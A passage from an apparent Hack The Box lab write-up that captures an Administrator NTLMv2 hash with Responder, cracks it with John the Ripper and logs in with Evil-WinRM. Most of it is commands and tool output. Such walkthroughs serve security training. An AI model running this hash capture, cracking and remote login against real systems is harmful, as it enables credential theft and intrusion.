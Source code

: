 ```console
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.15]
    Responder IPv6             [dead:beef:2::100d]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-26LJT5D4U71]
    Responder Domain Name      [YIU4.LOCAL]
    Responder DCE-RPC Port     [46865]

[+] Listening for events...                                                                                              

[SMB] NTLMv2-SSP Client   : ::ffff:10.129.13.133
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:0be9c5c6cf0e9a1f:315A0FA65B9B10A52D30154FF9
B30B03:010100000000000080AF8BA6064FD80155B6827C008240070000000002000800590049005500340001001E005
70049004E002D00320036004C004A00540035004400340055003700310004003400570049004E002D00320036004C004
A0054003500440034005500370031002E0059004900550034002E004C004F00430041004C00030014005900490055003
4002E004C004F00430041004C000500140059004900550034002E004C004F00430041004C000700080080AF8BA6064FD
8010600040002000000080030003000000000000000010000000020000082174BADF21708E22DEA49E1A9D4B9082DB16
9627E622A1FBE7ADAC17D264F0A0A001000000000000000000000000000000000000900200063006900660073002F003
10030002E00310030002E00310034002E00310035000000000000000000
```

Now that we have the hash, we can use 'John the Ripper' to brute force the password using a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials).

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo john --format=netntlmv2 -w=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-04-13 09:10) 16.66g/s 546133p/s 546133c/s 546133C/s bulova..160582
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

We got the password! Now we just need to utilize it, since Linux doesn't support PowerShell out of the box, we'll use 'Evil-WinRM'.

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ evil-winrm -i 10.129.156.117 -u administrator -p badminton

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                 
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
```